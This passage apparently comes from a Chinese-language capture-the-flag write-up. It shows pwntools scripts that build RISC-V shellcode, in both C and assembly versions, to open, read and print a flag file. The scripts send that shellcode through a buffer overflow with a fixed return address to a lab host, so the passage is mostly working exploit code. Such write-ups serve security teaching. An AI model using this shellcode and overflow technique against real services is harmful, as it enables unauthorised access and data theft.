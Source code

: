 ```python
    syscall(63,f,buf,100);      // read    =  63
    syscall(64,1,buf,100);      // write   =  64
    syscall(93);                // exit    =  93
}

asm(
    "syscall:\\n"
    "mv a7, a0\\n"
    "mv a0, a1\\n"
    "mv a1, a2\\n"
    "mv a2, a3\\n"
    "ecall\\n"
    "ret\\n"
);
'''

sc = gen_shellcode(shellcode)
io.sendline(sc.ljust(288,b'a')+p64(0x4000800b48))
io.interactive()
```

> 汇编源码版shellcode：

```python
from pwn import *
import os
context(log_level="debug")
io = remote("10.10.10.1",60001)

def gen_shellcode(shellcode):
    f = open("shellcode.s","w");f.write(shellcode);f.close()
    os.system("riscv64-linux-gnu-gcc shellcode.s -c")
    os.system("riscv64-linux-gnu-ld shellcode.o -o shellcode")
    os.system("riscv64-linux-gnu-objdump -d ./shellcode")
    os.system("riscv64-linux-gnu-objcopy -O binary --only-section=.text shellcode shellcode.text")
    f = open("shellcode.text","rb");sc = f.read();f.close()
    return sc

shellcode = '''
    .global _start
    .text
_start:
    li s1, 0x77702f656d6f682f   # Load "/home/pwn/flag" backwards into s1 & s2
    li s2, 0x000067616c662f6e
    sd s1, -16(sp)              # Store dword s1 on the stack
    sd s2, -8(sp)               # Store dword s2 on the stack
    slt a0,zero,-1              # a0 = argv set to 0
    addi a1,sp,-16              # a1 = filename = sp + (-16)
    slt a2,zero,-1              # a2 = envp set to 0
    li a7, 56                   # openat = 56
    ecall                       # Do syscall: openat(0,"/home/pwn/flag",0)

    addi a1,sp,-100             # a1 = sp + (-100)
    li a2,100                   # a2 = 100
    li a7, 63                   # read = 63
    ecall                       # Do syscalls: read(flag,sp-100,100)

    li a0,1                     # a0 = 1
    addi a1,sp,-100             # a1 = sp + (-100)
    li a2,100                   # a2 = 100
    li a7, 64                   # write = 64
    ecall                       # Do syscalls: write(1,sp-100,100)

    li a7, 93                   # exit = 93
```